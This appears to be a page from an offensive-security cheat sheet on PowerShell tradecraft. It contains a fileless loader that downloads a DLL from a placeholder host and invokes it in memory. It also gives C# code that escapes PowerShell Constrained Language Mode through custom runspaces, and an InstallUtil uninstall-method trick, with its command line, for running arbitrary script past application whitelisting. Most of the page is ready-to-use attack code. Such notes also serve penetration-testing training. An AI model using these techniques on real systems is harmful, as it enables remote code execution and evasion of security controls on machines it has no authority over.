 # PowerShell

### Run Reflective Assembly

This method does not touch disk \(see C\# section in payloads for possible payloads\):

```text
public class Payload
{
    public static void Run()
    {
        // ...
    }
}
```

```text
$data = (New-Object System.Net.WebClient).DownloadData('http://<ip>/payload.dll')
$asm = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("Payload.Class1")
$method = $class.GetMethod("Run")
$method.Invoke(0, $null)
```

### Constrained Language Mode

Print Language Mode with `$ExecutionContext.SessionState.LanguageMode` . When constrained, we can not use parts of the language, for example .NET framework functions.

#### Custom Runspaces

We can get Full Language mode back via Custom Runspaces in C\#:

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;

namespace CustomRunspaces {
    class Program {
        static void Main(string[] args) {
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
            ps.AddScript("<cmd>");
            ps.Invoke();
            rs.Close();            
        }
    }
}
```

### InstallUtil

We can leverage the uninstall method \(install would require admin privileges\):

```csharp
using System;
using System.Configuration.Install;
using System.Management.Automation;
using System.Management.Automation.Runspaces;

namespace InstallUtilBypass {
    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer{
        public override void Uninstall(System.Collections.IDictionary savedState){
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            ps.AddScript("<cmd>");
            ps.Invoke();
            rs.Close();
        }
    }

    class Program {
        static void Main(string[] args){
            // does not matter
        }
    }
}
```

Call via:

```text
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U <payload.exe>
```

